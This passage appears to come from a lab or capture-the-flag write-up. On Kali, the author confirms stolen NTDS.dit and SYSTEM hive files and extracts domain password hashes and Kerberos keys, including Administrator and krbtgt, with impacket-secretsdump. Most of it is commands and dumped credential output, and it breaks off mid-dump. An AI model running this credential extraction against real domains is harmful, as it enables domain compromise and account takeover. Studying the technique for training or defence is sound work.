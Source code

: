 These files look like NTDS file for database of Active directory.<br>
.dit stands for "Directory Information Tree" and the hierarchy of network objects and access permissiona are saved.<br>
To confirm what are these files, we can use "file" command.<br>
{% highlight shell %}
root@kali:~# file 2017072111463*
20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit: Extensible storage engine DataBase, version 0x620, checksum 0x16d44752, page size 8192, DirtyShutdown, Windows version 6.1
20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin: MS Windows registry file, NT/2000 or above

root@kali:~#
{% endhighlight %}

Since we had a NTDS file and system hive, we can extract the password hash of the users.<br>
We can refer <a href="https://blog.ropnop.com/extracting-hashes-and-domain-info-from-ntds-dit/">this article</a> for the additional information.
{% highlight shell %}
root@kali:~# impacket-secretsdump -system 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit LOCAL
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Target system bootKey: 0x14b6fb98fedc8e15107867c4722d1399
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: d77ec2af971436bccb3b6fc4a969d7ff
[*] Reading and decrypting hashes from 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN-3G2B0H151AC$:1000:aad3b435b51404eeaad3b435b51404ee:668d49ebfdb70aeee8bcaeac9e3e66fd:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ca1ccefcb525db49828fbb9d68298eee:::
WIN2K8$:1103:aad3b435b51404eeaad3b435b51404ee:160f6c1db2ce0994c19c46a349611487:::
WINXP1$:1104:aad3b435b51404eeaad3b435b51404ee:6f5e87fd20d1d8753896f6c9cb316279:::
WIN2K31$:1105:aad3b435b51404eeaad3b435b51404ee:cdd7a7f43d06b3a91705900a592f3772:::
WIN7$:1106:aad3b435b51404eeaad3b435b51404ee:24473180acbcc5f7d2731abe05cfa88c:::
atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
[*] Kerberos keys from 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit 
Administrator:aes256-cts-hmac-sha1-96:6c53b16d11a496d0535959885ea7c79c04945889028704e2a4d1ca171e4374e2
Administrator:aes128-cts-hmac-sha1-96:e2a25474aa9eb0e1525d0f50233c0274
Administrator:des-cbc-md5:75375eda54757c2f
WIN-3G2B0H151AC$:aes256-cts-hmac-sha1-96:84e3d886fe1a81ed415d36f438c036715fd8c9e67edbd866519a2358f9897233
WIN-3G2B0H151AC$:aes128-cts-hmac-sha1-96:e1a487ca8937b21268e8b3c41c0e4a74
WIN-3G2B0H151AC$:des-cbc-md5:b39dc12a920457d5
WIN-3G2B0H151AC$:rc4_hmac:668d49ebfdb70aeee8bcaeac9e3e66fd
krbtgt:aes256-cts-hmac-sha1-96:14134e1da577c7162acb1e01ea750a9da9b9b717f78d7ca6a5c95febe09b35b8
krbtgt:aes128-cts-hmac-sha1-96:8b96c9c8ea354109b951bfa3f3aa4593
krbtgt:des-cbc-md5:10ef08047a862046
krbtgt:rc4_hmac:ca1ccefcb525db49828fbb9d68298eee
WIN2K8$:aes256-cts-hmac-sha1-96:289dd4c7e01818f179a977fd1e35c0d34b22456b1c8f844f34d11b63168637c5
WIN2K8$:aes128-cts-hmac-sha1-96:deb0ee067658c075ea7eaef27a605908
WIN2K8$:des-cbc-md5:d352a8d3a7a7380b
WIN2K8$:rc4_hmac:160f6c1db2ce0994c19c46a349611487
WINXP1$:aes256-cts-hmac-sha1-96:347a128a1f9a71de4c52b09d94ad374ac173bd644c20d5e76f31b85e43376d14
WINXP1$:aes128-cts-hmac-sha1-96:0e4c937f9f35576756a6001b0af04ded
WINXP1$:des-cbc-md5:984a40d5f4a815f2
WINXP1$:rc4_hmac:6f5e87fd20d1d8753896f6c9cb316279
WIN2K31$:aes256-cts-hmac-sha1-96:f486b86bda928707e327faf7c752cba5bd1fcb42c3483c404be0424f6a5c9f16
WIN2K31$:aes128-cts-hmac-sha1-96:1aae3545508cfda2725c8f9832a1a734
WIN2K31$:des-cbc-md5:4cbf2ad3c4f75b01
WIN2K31$:rc4_hmac:cdd7a7f43d06b3a91705900a592f3772
WIN7$:aes256-cts-hmac-sha1-96:b9921a50152944b5849c706b584f108f9b93127f259b179afc207d2b46de6f42
WIN7$:aes128-cts-hmac-sha1-96:40207f6ef31d6f50065d2f2ddb61a9e7